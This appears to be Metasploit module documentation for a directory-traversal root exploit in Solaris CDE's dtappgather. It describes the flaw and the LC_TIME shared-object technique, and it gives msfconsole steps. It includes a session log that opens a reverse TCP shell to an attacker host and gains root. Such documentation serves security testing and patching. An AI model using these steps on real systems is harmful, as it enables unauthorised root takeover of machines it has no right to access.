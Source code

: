 ## Description

  This module exploits a directory traversal vulnerability in the
  `dtappgather` executable included with Common Desktop Environment (CDE)
  on unpatched Solaris systems prior to Solaris 10u11 which allows users
  to gain root privileges.

  dtappgather allows users to create a user-owned directory at any
  location on the filesystem using the `DTUSERSESSION` environment
  variable.

  This module creates a directory in `/usr/lib/locale`, writes a shared
  object to the directory, and runs the specified SUID binary with the
  shared object loaded using the `LC_TIME` environment variable.


## Vulnerable Application

  This module has been tested successfully on:

  * Solaris 9u7 (09/04) (x86)
  * Solaris 10u1 (01/06) (x86)
  * Solaris 10u2 (06/06) (x86)
  * Solaris 10u4 (08/07) (x86)
  * Solaris 10u8 (10/09) (x86)
  * Solaris 10u9 (09/10) (x86)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/extremeparr_dtappgather_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`.

  **DTAPPGATHER_PATH**

  Path to `dtappgather` executable. (default: `/usr/dt/bin/dtappgather`)

  **SUID_PATH**

  Path to suid executable. (default: `/usr/bin/at`)

  Some useful example SUID executables:

  * /usr/bin/at
  * /usr/bin/cancel
  * /usr/bin/chkey
  * /usr/bin/lp
  * /usr/bin/lpset
  * /usr/bin/lpstat
  * /usr/lib/lp/bin/netpr
  * /usr/sbin/lpmove


## Scenarios

### Solaris 10u1 (x86)

  ```
  msf5 > use exploit/solaris/local/extremeparr_dtappgather_priv_esc 
  msf5 exploit(solaris/local/extremeparr_dtappgather_priv_esc) > set session 1
  session => 1
  msf5 exploit(solaris/local/extremeparr_dtappgather_priv_esc) > set lhost 172.16.191.196
  lhost => 172.16.191.196
  msf5 exploit(solaris/local/extremeparr_dtappgather_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.196:4444 
  [+] Created directory /usr/lib/locale/ExDmW
  [*] Writing '/tmp/.Wfy7WpcZej/.pv7h2R.c' (170 bytes) ...
  [*] Writing '/tmp/.Wfy7WpcZej/.uGjK3nLc5' (175 bytes) ...
  [*] Executing payload...
  [!] Tried to delete /var/dt/appconfig/appmanager, unknown result
  [+] Deleted /tmp/.Wfy7WpcZej/.pv7h2R.c
  [+] Deleted /tmp/.Wfy7WpcZej/.pv7h2R
  [+] Deleted /usr/lib/locale/ExDmW/ExDmW.so.2
  [+] Deleted /usr/lib/locale/ExDmW/ExDmW.so.3
  [+] Deleted /tmp/.Wfy7WpcZej/.uGjK3nLc5
  [+] Deleted /usr/lib/locale/ExDmW
  [+] Deleted /tmp/.Wfy7WpcZej

  id
  uid=0(root) gid=0(root)
  uname -a
  SunOS unknown 5.10 Generic_118844-26 i86pc i386 i86pc
  cat /etc/release
                          Solaris 10 1/06 s10x_u1wos_19a X86
             Copyright 2005 Sun Microsystems, Inc.  All Rights Reserved.
                          Use is subject to license terms.
                             Assembled 07 December 2005
  ```

